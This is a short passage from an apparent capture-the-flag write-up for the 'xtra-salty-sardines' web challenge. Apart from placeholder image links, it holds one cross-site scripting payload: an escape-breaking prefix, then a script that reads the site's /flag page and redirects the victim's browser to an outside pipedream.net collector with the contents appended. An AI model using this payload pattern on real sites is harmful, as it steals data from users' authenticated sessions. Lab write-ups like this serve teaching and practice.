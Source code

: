 ![Untitled](writeup_media/Untitled%205.png)

![Untitled](writeup_media/Untitled%206.png)

```html
&"'<>
<script>
    url = "https://xtra-salty-sardines.web.actf.co/flag";
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open("GET", url, false);
    xmlHttp.send(null);
    var flag = xmlHttp.responseText;
    document.location='https://eoor1c6mm76wo38.m.pipedream.net/?c='+flag;
</script>
```

![Untitled](writeup_media/Untitled%207.png)
